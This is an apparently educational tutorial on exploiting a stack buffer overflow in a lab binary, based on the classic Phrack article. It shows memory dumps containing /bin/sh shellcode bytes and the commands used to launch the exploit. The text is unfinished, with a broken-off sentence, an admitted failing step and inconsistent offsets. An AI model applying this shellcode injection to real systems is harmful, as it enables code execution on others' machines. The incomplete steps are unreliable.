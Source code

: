 ### Exploiting

In this tutorial we'll review how to proceed with a buffer overflow and exploit it.

Content is heavily based on [1]:

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity3:latest .
```
and run with:
```bash
docker run --privileged -it basic_cybersecurity3:latest
```

----

We'll be using two binaries `vulnerable` (the vulnerable program which takes a parameter) and `exploit2`, a program that takes as a parameter a buffer size, and an offset from its own stack pointer (where we believe the buffer we want to
overflow may live).

An introduction to exploit2 is provided at [2]. They way things work in a simple way is, `exploit2` launches pushes the content of `buff` to an environmental variable called `EGG` and just afterwards, launches a shell with this environmental variable active. Within the shell, we launch `vulnerable` and use `$EGG` as a parameter.
The trick here is that when constructing `buff` in `exploit2`, we obtain the stack pointer (`esp` in i386) of that binary
and substract an arbitrary number we define from it to obtain the address that will be written after the shellcode. This way, we end up with something like this *in the heap* (note that `buff` lives in the *heap*):

```
                              /----------------------\  lower
                              |        shellcode     |  memory
                              |                      |  addresses
                              |----------------------|
                              |                      |
                            | | esp - arbitrary num. |
                    growth  | |                      |
                  direction v |-.-.-.-.-.-.-.-.-.-.-.|
                              |                      |
                              | esp - arbitrary num. |
                              |                      |
                              |-.-.-.-.-.-.-.-.-.-.-.|
                              |                      |
                              | esp - arbitrary num. |
                              |                      |
                              |-.-.-.-.-.-.-.-.-.-.-.|
                                        ...
```
As pointed out, this content gets pushed to the environmental variable `EGG`.

Now, when we launch a shell and subsequently, launch `vulnerable` within the shell our stack is growing as follows:

```
                              /------------------\  higher
                              |                  |  memory
                              |                  |  addresses
                              |------------------|
                              |                  |
                            | |  Stack exploit2  | esp = 0xffffd740
                    growth  | |                  |
                  direction v |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              |    Stack bash    | esp = 0xffffd5a8
                              |                  |
                              |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              | Stack vulnerable | esp = 0xffffd0c0
                              |                  |
                              |-.-.-.-.-.-.-.-.-.|
                              |                  |
                              |       ...        |
                              |                  |                                                            
                              |------------------|
```

*Note: These numbers will only appear when running each binary with GDB. If not, the stack pointer of `exploit2` will appear with weird values like `0xffde5688` and so on.*

What this tells us is that making some simple math `0xffffd740 - 0xffffd0c0 = 1664` we can figure out the offset address needed. In other words, if we substract `1664` to the `esp` value of `exploit2`, we could point to the bits of the `vulnerable`'s stack pointer and pretty much do with it what we want if we overflow the buffer `buffer` of `vulnerable`.

*Note: for some reason, the number needed to get the right address in the stack is not 1664 but 8 bits less: 1656. Not sure why.*

We can double check this by printing the memory of `buff` and `buffer` while debugging `exploit2` and `vulnerable` respectively:

```
pwndbg> p buff
$1 = 0x804b008 "EGG=\353\037^\211v\b1\300\210F\a"...
pwndbg> x/100wx 0x0804b008
0x804b008:	0x3d474745	0x895e1feb	0xc0310876	0x89074688
0x804b018:	0x0bb00c46	0x4e8df389	0x0c568d08	0xdb3180cd
0x804b028:	0xcd40d889	0xffdce880	0x622fffff	0x732f6e69
0x804b038:	0xffffd068	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b048:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b058:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b068:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b078:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b088:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b098:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0a8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0b8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0c8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0d8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0e8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b0f8:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b108:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b118:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b128:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b138:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b148:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b158:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b168:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b178:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0x804b188:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
```

```
pwndbg> p argv[1]
$3 = 0xffffd493 "\353\037^\211v\b1\300\210F\a\211F\f\260"..
pwndbg> x/100wx 0xffffd493
0xffffd493:	0x895e1feb	0xc0310876	0x89074688	0x0bb00c46
0xffffd4a3:	0x4e8df389	0x0c568d08	0xdb3180cd	0xcd40d889
0xffffd4b3:	0xffdce880	0x622fffff	0x732f6e69	0xffffd068
0xffffd4c3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4d3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4e3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd4f3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd503:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd513:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd523:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd533:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd543:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd553:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd563:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd573:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd583:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd593:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5a3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5b3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5c3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5d3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5e3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd5f3:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd603:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0
0xffffd613:	0xffffd0c0	0xffffd0c0	0xffffd0c0	0xffffd0c0

```

*Note: the first 4 bits of the dump in `exploit2` don't match because correspond with the string "EGG="*

Note that `0xffffd0c0` is appended after the shellcode which aims to overwrite the return address of `vulnerable` to jump into the beginning of the stack pointer `esp` which is where the overflowed buffer begins which the malici

Before the following instructions in `vulnerable`:
```C
5     strcpy(buffer,argv[1]);
```

the content of `buffer` should be:

```
pwndbg> p &buffer
$2 = (char (*)[512]) 0xffffd0c0
pwndbg> x/100wx 0xffffd0c0 # similar to "x/100wx &buffer"
0xffffd0c0:	0x00000070	0xf7feff96	0xf7fe933d	0xf7fe1f60
0xffffd0d0:	0xf7fd8241	0xf7f6d298	0xf7ffd53c	0xf7fe4017
0xffffd0e0:	0xf7ffc000	0x00001000	0x00000001	0x03ae75f6
0xffffd0f0:	0xf7ffdad0	0xf7fd5780	0xf7fe1e39	0xf7fd8128
0xffffd100:	0x00000007	0xf7ffdc08	0x6e43a318	0xf7fe263d
0xffffd110:	0x00000000	0x00000000	0xf7fd81a0	0x00000007
0xffffd120:	0xf7fd81c0	0xf7ffdc08	0xffffd17c	0xffffd178
0xffffd130:	0x00000001	0x00000000	0xf7ffd000	0xf7f6d2a2
0xffffd140:	0x6e43a318	0xf7fe1f60	0xf7e252e5	0x0804825e
0xffffd150:	0xf7fd81a0	0x03721d18	0xf7ff5ac4	0xffffd208
0xffffd160:	0xf7ff39f3	0x0d696910	0xf7ffd000	0x00000000
0xffffd170:	0xf7fe1e39	0xf7e15d14	0x000008ea	0xf7fd51b0
0xffffd180:	0xf63d4e2e	0xf7fe263d	0x00000001	0x00000001
0xffffd190:	0xf7e1edc8	0x000008ea	0xf7e1f618	0xf7fd51b0
0xffffd1a0:	0xffffd1f4	0xffffd1f0	0x00000003	0x00000000
0xffffd1b0:	0xf7ffd000	0x0804823d	0xf63d4e2e	0xf7e15f12
0xffffd1c0:	0x000008ea	0xf7e1f618	0xf7e1edc8	0x07b1ea71
0xffffd1d0:	0xf7ff5ac4	0xffffd280	0xf7ff39f3	0xf7fd5470
0xffffd1e0:	0x00000000	0x00000000	0xf7ffd000	0xf7ffdc08
0xffffd1f0:	0x00000000	0x00000000	0x00000000	0xffffd28c
0xffffd200:	0xf7fe1fc9	0x00000000	0xf7ffdad0	0xffffd288
0xffffd210:	0xffffd2d0	0xf7fe2b4b	0x080481fc	0xffffd288
0xffffd220:	0xf7ffda74	0x00000001	0xf7fd54a0	0x00000001
0xffffd230:	0x00000000	0x00000001	0xf7ffd918	0x00f0b5ff
0xffffd240:	0xffffd27e	0x00000001	0x000000c2	0xf7ea26bb
```

stepping through this instruction, the content of `buffer` becomes:

```
pwndbg> p &buffer
$2 = (char (*)[512]) 0xffffd0c0
0xffffd0c0:	0x00000070	0xf7feff96	0xf7fe933d	0xf7fe1f60
0xffffd0d0:	0xf7fd8241	0xf7f6d298	0xf7ffd53c	0xf7fe4017
0xffffd0e0:	0xf7ffc000	0x00001000	0x00000001	0x03ae75f6
0xffffd0f0:	0xf7ffdad0	0xf7fd5780	0xf7fe1e39	0xf7fd8128
0xffffd100:	0x00000007	0xf7ffdc08	0x6e43a318	0xf7fe263d
0xffffd110:	0x00000000	0x00000000	0xf7fd81a0	0x00000007
0xffffd120:	0xf7fd81c0	0xf7ffdc08	0xffffd17c	0xffffd178
0xffffd130:	0x00000001	0x00000000	0xf7ffd000	0xf7f6d2a2
0xffffd140:	0x6e43a318	0xf7fe1f60	0xf7e252e5	0x0804825e
0xffffd150:	0xf7fd81a0	0x03721d18	0xf7ff5ac4	0xffffd208
0xffffd160:	0xf7ff39f3	0x0d696910	0xf7ffd000	0x00000000
0xffffd170:	0xf7fe1e39	0xf7e15d14	0x000008ea	0xf7fd51b0
0xffffd180:	0xf63d4e2e	0xf7fe263d	0x00000001	0x00000001
0xffffd190:	0xf7e1edc8	0x000008ea	0xf7e1f618	0xf7fd51b0
0xffffd1a0:	0xffffd1f4	0xffffd1f0	0x00000003	0x00000000
0xffffd1b0:	0xf7ffd000	0x0804823d	0xf63d4e2e	0xf7e15f12
0xffffd1c0:	0x000008ea	0xf7e1f618	0xf7e1edc8	0x07b1ea71
0xffffd1d0:	0xf7ff5ac4	0xffffd280	0xf7ff39f3	0xf7fd5470
0xffffd1e0:	0x00000000	0x00000000	0xf7ffd000	0xf7ffdc08
0xffffd1f0:	0x00000000	0x00000000	0x00000000	0xffffd28c
0xffffd200:	0xf7fe1fc9	0x00000000	0xf7ffdad0	0xffffd288
0xffffd210:	0xffffd2d0	0xf7fe2b4b	0x080481fc	0xffffd288
0xffffd220:	0xf7ffda74	0x00000001	0xf7fd54a0	0x00000001
0xffffd230:	0x00000000	0x00000001	0xf7ffd918	0x00f0b5ff
0xffffd240:	0xffffd27e	0x00000001	0x000000c2	0xf7ea26bb
```

which seems unchanged. Something's not quite working. **Follow from here**.

Let's launch `exploit2`:
```bash
# Terminal 1
./exploit2 600 1564
gdb --args ./vulnerable $EGG

```

### Resources
- [1] A. One (1996). Smashing the Stack for Fun and Profit. Phrack, 7. Retrieved from http://insecure.org/stf/smashstack.html.
- [2] Basic stack overflow experimentation. Retrieved from https://github.com/vmayoral/cybersecurity_specialization/tree/master/software_security/week1.
